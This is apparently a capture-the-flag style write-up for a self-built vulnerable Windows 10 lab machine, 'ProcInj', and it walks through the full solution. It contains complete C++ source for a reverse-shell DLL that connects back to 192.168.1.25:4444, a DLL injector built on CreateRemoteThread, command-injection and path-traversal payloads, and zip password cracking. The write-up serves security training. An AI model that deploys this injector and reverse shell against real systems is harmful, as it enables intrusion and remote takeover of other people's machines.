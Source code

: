 # I created a Windows 10 Vuln machine

*July 27 2024*

I created a windows 10 machine called ProcInj, focusing on process injection and path traversal technique to get reverse shell. This writeup serves as a guide to solve the machine. Instruction to set up the lab can be seen in <a href="https://github.com/mdphuc/myfile/tree/main/VM/ProcInj/README.md">https://github.com/mdphuc/myfile/tree/main/VM/ProcInj/README.md</a>

ProcInj hosts a website as below

<img src="../Images/website.png"><br>

After messing around with the website, we notice that there's a form commented on the website, uncomment it and submit the form we have a zip file downloaded to our machine

<img src="../Images/website_hidden_form.png">
<br><br>
<img src="../Images/website_download.png"><br>

Try open it, we notice it's password protected

<img src="../Images/zip_protected.png"><br>

Use JohnTheRipper to crack the password with password list: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/common-passwords-win.txt 

<img src="../Images/zip2john.png">
<br><br>
<img src="../Images/zip_crack.png"><br>

Unzip the file and open information.txt we have

<img src="../Images/information_txt.png"><br>

Messing around with the website, we notice it is used to compile a .cpp file into exe or dll. However, it forbids us to compile .cpp file with windows api into exe. Information.txt tells us that only C://ProgramData/ProcInj/System/debug.exe can run. Further test also shows that we can submit customed command with the form (We can craft it like ```hello && echo "1" > hello.txt``` then a file named hello.txt with 1 as its content will be created)

As what Information.txt shows, our plan now is to create a dll file with windows api and run it by inject it into another process 

Our testdll.dll is crafted as followed

```cpp
#include <iostream>
#include <windows.h>
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib, "w2_32")

using namespace std;

#ifdef __cplusplus   
extern "C" {         
#endif
 
__declspec(dllexport) int __cdecl mbox(LPCWSTR msg){
    WSADATA wsaData;
    SOCKET wSock;
    struct sockaddr_in hax;
    STARTUPINFO sui;
    PROCESS_INFORMATION pi;

    char *ip = "192.168.1.25";
    short port = 4444;

    // init socket lib
    WSAStartup(MAKEWORD(2, 2), &wsaData);

    // create socket
    wSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

    hax.sin_family = AF_INET;
    hax.sin_port = htons(port);
    hax.sin_addr.s_addr = inet_addr(ip);

    // connect to remote host
    WSAConnect(wSock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    memset(&sui, 0, sizeof(sui));
    sui.cb = sizeof(sui);
    sui.dwFlags = STARTF_USESTDHANDLES;
    sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) wSock;

    // start cmd.exe with redirected streams
    CreateProcess(NULL, "powershell.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
    exit(0);

    MessageBox(NULL, TEXT("HELLO WORLD"), TEXT("TEST"), MB_OK);
    return 1;
}   
 
#ifdef __cplusplus
}
#endif

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved){
    switch(fdwReason){ 
        case DLL_PROCESS_ATTACH:
            mbox(L"Run");
            break;

        case DLL_THREAD_ATTACH:
            break;

        case DLL_THREAD_DETACH:
            break;

        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

Our debug.exe for injection is crafted as followed

```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>
#include <psapi.h>

using namespace std;

BOOL CompareCHAR(CHAR *char1, CHAR *char2){
    int i = 0;
    while(char1[i] != '\0' && char2[i] != '\0'){
        if (char1[i] != char2[i]){
            return false;
        }
        i ++;
    }
    if ((char1[i] == '\0' && char2[i] != '\0') || (char1[i] != '\0' && char2[i] == '\0')){
        return false;
    }
    return true;
}

DWORD GetProcessID(CHAR *process_name){
    HANDLE process_snap;
    PROCESSENTRY32 pe32;
    HANDLE handle_process;

    process_snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    pe32.dwSize = sizeof(PROCESSENTRY32);

    Process32First(process_snap, &pe32);

    do{
        if (CompareCHAR((CHAR*)pe32.szExeFile, process_name)){
            return pe32.th32ProcessID;
        }

        // cout << pe32.szExeFile << " " << process_name << endl;
    }while(Process32Next(process_snap, &pe32));
    return 0;
}

BOOL Inject(TCHAR *dll_to_inject, DWORD process_id_inject_to){
    TCHAR dll_path[MAX_PATH];

    GetFullPathName(dll_to_inject, MAX_PATH, dll_path, NULL);

    HANDLE hproc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_id_inject_to);

    LPVOID dllalloc = VirtualAllocEx(hproc, NULL, strlen((CHAR*)dll_path), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(hproc, dllalloc, dll_path, strlen((CHAR*)dll_path), NULL);

    FARPROC loadlibraryA_addr = GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "LoadLibraryA");

    HANDLE rthread = CreateRemoteThread(hproc, NULL, 0, (LPTHREAD_START_ROUTINE)loadlibraryA_addr, dllalloc, 0, NULL);
    WaitForSingleObject(rthread, INFINITE);

    return true;
}

int main(){
    TCHAR dll_to_inject[MAX_PATH] = TEXT("C://ProgramData/ProcInj/Web/compiled/testdll.dll");

    CHAR process_to_get_id[] = "cmd.exe";

    DWORD pid = GetProcessID(process_to_get_id);

    if (pid == 0){
        cout << "Cannot find id of target process";
        return 1;
    }

    cout << pid << endl;
    cout << Inject(dll_to_inject, pid);
}
```
This is your netcat server to receive reverse shell (change it accordingly to your own)
```cpp
char *ip = "192.168.1.25"
short port = 4444
``` 
debug.exe is used to get cmd.exe's process id, and injection testdll.dll into that process id. Once CreateRemoteThread and WaitForSingleObject are called, function mbox in testdll.dll will run

Information.txt tells us that debug.txt leaves under C://ProgramData/ProcInj/System, and website reveals ```./Web/compiled```. We guess that website is running under ```C://ProgramData/ProcInj/Web``` and sure file after being compiled will be stored at ```./Web/compiled```, so we may probably use ```../..``` in our payload

We will initiate the process with these following payload respectively

1. ```testdll.cpp -shared -lws2_32 -o testdll.dll```
2. ```debug.cpp -o ../../System/debug.exe```
3. ```hello && powershell C://ProgramData/ProcInj/System/debug.exe```

We got reverse shell in the end 

<img src="../Images/terminal.png"><br>

We also notice that we cannot use tasklist or tskill or stop-process to stop av.exe; however, once we got the shell, it's ok to do that and get full access of the shell


